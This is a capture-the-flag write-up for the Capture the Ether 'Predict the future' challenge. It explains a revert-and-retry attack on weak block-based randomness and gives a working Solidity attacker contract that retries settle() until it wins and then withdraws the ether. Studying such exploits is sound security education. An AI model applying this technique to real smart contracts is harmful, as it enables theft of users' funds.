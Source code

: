 # Predict the future Capturetheether

## Goals

=> This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.

### Hints

- Note that it is indeed possible to solve this challenge without losing any ether.

### Solution

- My solution is kind of trial and error and the vulnerability is that we can just call the `settle()` function and revert if the `isComplete()` is not true so we could guess as many times as we want without sending 1 ether each guess, I think there should be a way to calculate the `block.timestamp` as well as the blocknumber of 2 block in the future which would be even cheaper than the trial and error method but this one was the easiest way to attack the contract for me.

### Attacker Contract

```solidity
contract Hack {
    PredictTheFutureChallenge predictContract;

    constructor(address _predictContract) {
        predictContract = PredictTheFutureChallenge(_predictContract);
    }

    receive() external payable {}

    function guess(uint8 answer) public payable {
        require(answer >= 0 && answer <= 9);
        predictContract.lockInGuess{value: 1 ether}(answer);
    }

    function attack() public {
        predictContract.settle();
        require(predictContract.isComplete(), "Try again");
        payable(msg.sender).transfer(address(this).balance);
    }

    function showBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
